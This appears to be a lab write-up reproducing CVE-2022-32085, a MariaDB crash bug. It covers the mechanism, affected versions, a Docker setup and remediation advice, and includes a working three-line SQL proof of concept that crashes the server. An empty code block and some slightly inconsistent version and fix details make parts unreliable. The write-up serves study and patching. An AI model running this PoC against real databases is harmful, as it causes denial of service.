



# CVE-2022-32085 MariaDB segment error

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
In MariaDB, when `IN(...)` expressions (such as a mixed constant/function list containing `CURRENT_USER()`) are used as column `DEFAULT` and repeated after multiple evaluation/optimizer rewriting (e.g., conversion to subquery), subentries of the expression tree may be mistakenly cleaned up or repeatedly released (shallow copy/improper ownership management), in `Item_func_in::cleanup` / `Item::cleanup_processor` Path causes dereference to released or uninitialized pointers, triggering a mysqld segment error (DoS).

## Vulnerability Location
Analysis of MariaDB 10.6.3:

In the [sql/item_cmpfunc.cc](https://github.com/MariaDB/server/compare/mariadb-10.6.7...mariadb-10.6.8#diff-1d0eeab9c76ca431af1f61a23ffd0cb93f4a38709e16005c0aa636ec9a6c313d) file

```c

```

## Remediation

Upgrade to MariaDB 10.3.35, 10.4.25, 10.5.16, 10.6.8, 10.7.4, or later. The corrected `sql/item_cmpfunc.cc` logic validates and initializes the comparison operands before evaluation, preventing the malformed expression state from reaching an invalid comparator dereference.

Until the update is installed, limit untrusted users' ability to create stored expressions, generated columns, views, or other schema objects used by the trigger query. Avoiding the published PoC is not a complete defense because other expressions may construct the same internal comparator state.

## Affected Versions
**Affected version:** MariaDB:

- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Start the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, there is a database test_db, open port 3306, and the container already contains a PoC file CVE-2022-32085-PoC.sql.

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-32085-PoC.sql, and you'll see that the connection is disconnected and the container automatically closes

```sql
source CVE-2022-32085-PoC.sql
```



4. Review the MariaDB crash log, and you can see that the occurrence of UAF causes DoS, with the problem occurring within the `Item_func_in::cleanup()` and corresponding to the vulnerability principle.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 ( v1 int DEFAULT ('x' IN ('x', CURRENT_USER))) ;
INSERT INTO t1 VALUES ( v1 ) ;
INSERT INTO t1 VALUES ( v1 ) ;
```

## References
[NVD - CVE-2022-32085](https://nvd.nist.gov/vuln/detail/CVE-2022-32085)

[[MDEV-26407\] Server crashes in Item_func_in::cleanup/Item::cleanup_processor - Jira](https://jira.mariadb.org/browse/MDEV-26407)

[Comparing mariadb-10.6.7... mariadb-10.6.8 · MariaDB/server](https://github.com/MariaDB/server/compare/mariadb-10.6.7...mariadb-10.6.8)
